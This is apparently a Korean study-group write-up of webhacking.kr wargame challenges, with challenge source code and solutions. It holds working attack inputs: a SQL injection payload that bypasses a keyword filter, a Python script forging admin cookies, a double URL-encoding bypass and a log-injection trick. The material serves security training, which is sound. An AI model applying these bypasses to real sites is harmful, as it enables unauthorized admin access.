


# TeamH4C_Webhacking-study
### 1주차 : webhacking.kr의 50~100점짜리 (가입 포함 12문제)를 올클하고 라이트업을 작성하기.
---------------------------------------
# 가입하기

webhacking.kr 사이트에 접속하면 일단 저렇게 깐지나는 로그인 창이 나온다.<br>
하지만 어디를 봐도 join 은 없고, login 만 있다.

그래서 크롬 개발자도구를 열어서 뒤적여본 결과, register 창이 주석 처리 되있는것을 볼 수 있었고, HTML 수정을 통해 주석을 지워줬더니, 저렇게 register 버튼이 나왔다.

일단 필자는 이미 가입을 한 상태이므로 일단은 막 적어줬다.<br>
그런데 아래에 decode me 라는 창이 있다. 별로 디코딩 하고싶지는 않지만 해주자.
 <br>
base64로 3번 풀어주면 저렇게 자신의 아이피주소가 나온다. 저걸 넣어주고 가입해주면 된다!<br>
그럼 이제부터 열심히 푸러보자규요 !! :)

---------------------------------------
# prob14 - 100pt

<br>
일단 들어가면 저렇게 입력창만 하나 있다. 사이트 소스에 뭔가 힌트가 있을거 같으므로 소스를 한번 보도록 하겠다.
<br>
음 처음에 나는 이문제를 구캠에서 풀었는데, 그때는 일일히 계산해서 풀었지만 지금은 그냥 편하게 콘솔을 이용하여 풀겠다.
<br>
<br>
옼케이 쥬아요

---------------------------------------
# prob15 - 50pt
<br>
???????

---------------------------------------
# prob16 - 100pt
<br>
별이 있다. 소스를 보겠다.
``` javascript
<html>
<head>
<title>Challenge 16</title>
<body bgcolor=black onload=kk(1,1) onkeypress=mv(event.keyCode)>
<font color=silver id=c></font>
<font color=yellow size=100 style=position:relative id=star>*</font>
<script> 
document.body.innerHTML+="<font color=yellow id=aa style=position:relative;left:0;top:0>*</font>";

function mv(cd)
{
kk(star.style.posLeft-50,star.style.posTop-50);
if(cd==100) star.style.posLeft=star.style.posLeft+50;
if(cd==97) star.style.posLeft=star.style.posLeft-50;
if(cd==119) star.style.posTop=star.style.posTop-50;
if(cd==115) star.style.posTop=star.style.posTop+50;
if(cd==124) location.href=String.fromCharCode(cd);
}


function kk(x,y)
{
rndc=Math.floor(Math.random()*9000000);
document.body.innerHTML+="<font color=#"+rndc+" id=aa style=position:relative;left:"+x+";top:"+y+" onmouseover=this.innerHTML=''>*</font>";
}

</script>
</body>
</html>"""
```
키보드로 입력을 받는것을 알 수 있는데, 여기서 키보드로 10진수 124가 입력되면  
뭐 히든메뉴? 같은게 실행되는 것 같다. 10진수 124는 키보드 | 다.  
<br>

---------------------------------------
# prob6 - 100pt

겁나 귀찮았던 문제...
``` php
<?php 
if(!$_COOKIE[user]) 
{ 
    $val_id="guest"; 
    $val_pw="123qwe"; 

    for($i=0;$i<20;$i++) 
    { 
        $val_id=base64_encode($val_id); 
        $val_pw=base64_encode($val_pw); 

    } 

    $val_id=str_replace("1","!",$val_id); 
    $val_id=str_replace("2","@",$val_id); 
    $val_id=str_replace("3","$",$val_id); 
    $val_id=str_replace("4","^",$val_id); 
    $val_id=str_replace("5","&",$val_id); 
    $val_id=str_replace("6","*",$val_id); 
    $val_id=str_replace("7","(",$val_id); 
    $val_id=str_replace("8",")",$val_id); 

    $val_pw=str_replace("1","!",$val_pw); 
    $val_pw=str_replace("2","@",$val_pw); 
    $val_pw=str_replace("3","$",$val_pw); 
    $val_pw=str_replace("4","^",$val_pw); 
    $val_pw=str_replace("5","&",$val_pw); 
    $val_pw=str_replace("6","*",$val_pw); 
    $val_pw=str_replace("7","(",$val_pw); 
    $val_pw=str_replace("8",")",$val_pw); 

    Setcookie("user",$val_id); 
    Setcookie("password",$val_pw); 

    echo("<meta http-equiv=refresh content=0>"); 
} 
?> 

<html> 
<head> 
<title>Challenge 6</title> 
<style type="text/css"> 
body { background:black; color:white; font-size:10pt; } 
</style> 
</head> 
<body> 

<? 

$decode_id=$_COOKIE[user]; 
$decode_pw=$_COOKIE[password]; 

$decode_id=str_replace("!","1",$decode_id); 
$decode_id=str_replace("@","2",$decode_id); 
$decode_id=str_replace("$","3",$decode_id); 
$decode_id=str_replace("^","4",$decode_id); 
$decode_id=str_replace("&","5",$decode_id); 
$decode_id=str_replace("*","6",$decode_id); 
$decode_id=str_replace("(","7",$decode_id); 
$decode_id=str_replace(")","8",$decode_id); 

$decode_pw=str_replace("!","1",$decode_pw); 
$decode_pw=str_replace("@","2",$decode_pw); 
$decode_pw=str_replace("$","3",$decode_pw); 
$decode_pw=str_replace("^","4",$decode_pw); 
$decode_pw=str_replace("&","5",$decode_pw); 
$decode_pw=str_replace("*","6",$decode_pw); 
$decode_pw=str_replace("(","7",$decode_pw); 
$decode_pw=str_replace(")","8",$decode_pw); 


for($i=0;$i<20;$i++) 
{ 
    $decode_id=base64_decode($decode_id); 
    $decode_pw=base64_decode($decode_pw); 
} 

echo("<font style=background:silver;color:black>&nbsp;&nbsp;HINT : base64&nbsp;&nbsp;</font><hr><a href=index.phps style=color:yellow;>index.phps</a><br><br>"); 
echo("ID : $decode_id<br>PW : $decode_pw<hr>"); 

if($decode_id=="admin" && $decode_pw=="admin") 
{ 
    @solve(6,100); 
} 


?> 

</body> 
</html> 
```
쿠키로 입력받은 값을 저기 위에 있는데로 치환해주고, base64로 20번 디코딩 해줘서 나온 값이 admin 이면 문제가 풀린다.
``` python
from base64 import *

encode = b"admin"

for i in range(20):
    encode = b64encode(encode)

encode = str(encode)
encode = encode.replace("1","!")
encode = encode.replace("2","@")
encode = encode.replace("3","$")
encode = encode.replace("4","^")
encode = encode.replace("5","&")
encode = encode.replace("6","*")
encode = encode.replace("7","(")
encode = encode.replace("8",")")

print(encode)
```
이거 돌려서 나온값 쿠키에 넣어주면 풀린다.

---------------------------------------
# prob6 - 100pt

<br>
이것도 그냥 들어가면 입력창 하나 나온다.
``` html

<html>
<head>
<title>Challenge 17</title>
</head>
<body bgcolor=black>
<font color=red size=10></font>
<p>
<form name=login>
<input type=passwd name=pw><input type=button onclick=sub() value="check">


</form>


<script>

unlock=100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10+100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10-100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10+9999999999;

function sub(){ if(login.pw.value==unlock){ alert("Password is "+unlock/10); }else { alert("Wrong");  }}
</script>
```
소스를 보면 저 식을 계산해서 나온 식의 답이 pw 가 된다.  
그냥 계산해주면 된다.  

오케이 쥬아요

---------------------------------------
# prob18 - 100pt

  
??? 난 SQL 인젝션을 진짜루 하나도 모른다. 그냥 대충 이미 지정되 있는 sql 쿼리에 꼽사리 껴서 쿼리를 내 맘대로 바꿔서 db 정보를 가져오는 등 행위를 하는 기법이라고만 알고 있었다.
``` html
<html> 
<head> 
<title>Challenge 18</title> 
<style type="text/css"> 
body { background:black; color:white; font-size:10pt; } 
input { background:silver; } 
a { color:lightgreen; } 
</style> 
</head> 
<body> 
<br><br> 
<center><h1>SQL INJECTION</h1> 
<form method=get action=index.php> 
<table border=0 align=center cellpadding=10 cellspacing=0> 
<tr><td><input type=text name=no></td><td><input type=submit></td></tr> 
</table> 
</form> 
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br> 
<? 
if($_GET[no]) 
{ 

if(eregi(" |/|\(|\)|\t|\||&|union|select|from|0x",$_GET[no])) exit("no hack"); 

$q=@mysql_fetch_array(mysql_query("select id from challenge18_table where id='guest' and no=$_GET[no]")); 

if($q[0]=="guest") echo ("hi guest"); 
if($q[0]=="admin") 
{ 
@solve(); 
echo ("hi admin!"); 
} 

} 

?> 
</a> 
<br><br><a href=index.phps>index.phps</a> 
</cener> 
</body> 
</html> 
```
위에 보면 필터링이 있는데 설상가상으로 난 정규표현식도 공부를 안한 상태였다..ㅠ  
그래서 구글링을 좀 하면서 풀었다. 자괴감이 이만저만이 아니였다.  
  
일단 감으로 1을 입력해봤더니 hi guest 가 떴다. 하지만 2를 입력해봤더니 아무것도 뜨지 않았다.  
그러면 1은 guest 의 pw, 2는 admin의 pw라고 추측할수 있다.  
하지만 저 위에 쿼리를 보면 id는 guest id만 보낼 수 있도록 해 뒀다.  
``` 
no=1%0aor%0ano=2
```
처음에 나는 쿼리를 이렇게 보내봤다. 하지만 아무리 기다려도 무응답이였다.  
그래서 구글링을 해본 결과, 쿼리를 다음과 같이 보내야 한다는 것을 깨닳았다.
```
no=5%0aor%0ano=2
```
이렇게 쿼리를 보내주면 sql 쿼리에서는  
연산자 우선순위가 and > or 이기 때문에   
```
(id='guest' and no=5) or no=2
```
이렇게 전송이 된다. 그러므로 해석을 해보면   
id가 guest고 no가 5인 값을 찾거나 no가 2인 값을 찾으면 된다 가 되는데 앞에 있는 식이 no가 5이므로 거짓이 되므로 뒤에 있는 식이 참이 되므로 admin 이 반환된다.  
sql 인젝션 기법은 더 공부를 해봐야겠다.

---------------------------------------
# prob26 - 100pt

``` php
<html> 
<head> 
<title>Challenge 26</title> 
<style type="text/css"> 
body { background:black; color:white; font-size:10pt; }     
a { color:lightgreen; } 
</style> 
</head> 
<body> 

<? 

if(eregi("admin",$_GET[id])) { echo("<p>no!"); exit(); } 

$_GET[id]=urldecode($_GET[id]); 

if($_GET[id]=="admin") 
{ 
@solve(26,100); 
} 

?> 


<br><br> 
<a href=index.phps>index.phps</a> 
</body> 
</html> 
```
id를 url 디코딩한 값이 admin이면 문제가 풀린다.  
그럼 admin 을 url 인코딩 해주면 되겠지?
  
...? 뭐임 왜안됨  
하지만 구글링 해본결과 답을 찾을 수 있었다.  
<br> 
원래 웹서버와 브라우저 사이에서 데이터 교환시 브라우저는 폼에서 입력받은 데이터를 자동으로 인코딩하여 php 로 보내고 php 는 인코딩된 값을 자동으로 디코딩 한다고 되있었다.
그러면 짜피 인코딩은 한번하니 인코딩을 한번 더하여 자동으로 디코딩 되어도 인코딩 되어있는 값이 남아있도록 하면 될 것 같다.  
```
http://webhacking.kr/challenge/web/web-11/?id=%2561%2564%256D%2569%256E
```
이거 보내주면 풀린다.

---------------------------------------
# prob26 - 100pt

  
??? 로그 인젝션? 첨들어보는 기법이다.  
일단 아무거나 막 눌러보자  
  
어드민 버튼을 눌러보니 이름모를 로그가 나왔다.  
  
저기 빈칸에 112(..)를 치고 로그인 하고 다시 로그를 보니 내 아이피와 내가 입력한 값이 찍혀 있었다.  
로그 인젝션이 뭔지 검색해보니 sql 인젝션처럼 입력 값을 통해 로그 기록을 조작하는 것 이라고 하였다.  
그럼 일단 저 로그 기록을 보니 아이피:아이디 같은데.. 그러면 일단 아무값<br>내 아이피:admin 을 쳐 보겠다.  
  
g00d  
H4CK3D BY D3V0NNUR! <- 일단 박제

